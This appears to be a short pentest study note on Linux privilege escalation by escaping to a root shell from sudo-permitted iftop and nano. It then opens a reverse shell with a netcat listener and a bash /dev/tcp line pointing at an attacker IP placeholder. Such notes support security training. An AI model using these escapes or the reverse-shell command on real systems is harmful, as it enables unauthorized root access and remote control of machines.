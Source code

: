 # shell escaping

start to know which process run with sudo privilege `sudo -l`

![image.png](<../../../.gitbook/assets/image (1).png>)

we will exploit all service

***

### Iftop

<figure><img src="../../../.gitbook/assets/image 1 (1).png" alt=""><figcaption></figcaption></figure>

```bash
sudo /usr/sbin/iftop
!/bin/sh
```

<figure><img src="../../../.gitbook/assets/image 2.png" alt=""><figcaption></figcaption></figure>

***

### awk

<figure><img src="../../../.gitbook/assets/image 3.png" alt=""><figcaption></figcaption></figure>

***

> may command line not suitable when as a root by nano service so let’s try to take a reverse shell

### nano

<figure><img src="../../../.gitbook/assets/image 4.png" alt=""><figcaption></figcaption></figure>

```bash
sudo nano
ctrl+R
ctrl+x
reset; sh 1>&0 2>&0
```

which open a root shell but it’s blind which u can see the result only so let’s take a reverse shell on our machine

```bash
# attacker machine
nc -nlvp 5253
```

```bash
# victim
bash -i >& /dev/tcp/AttackerIP/5253 0>&1
```

<figure><img src="../../../.gitbook/assets/image 5.png" alt=""><figcaption></figcaption></figure>
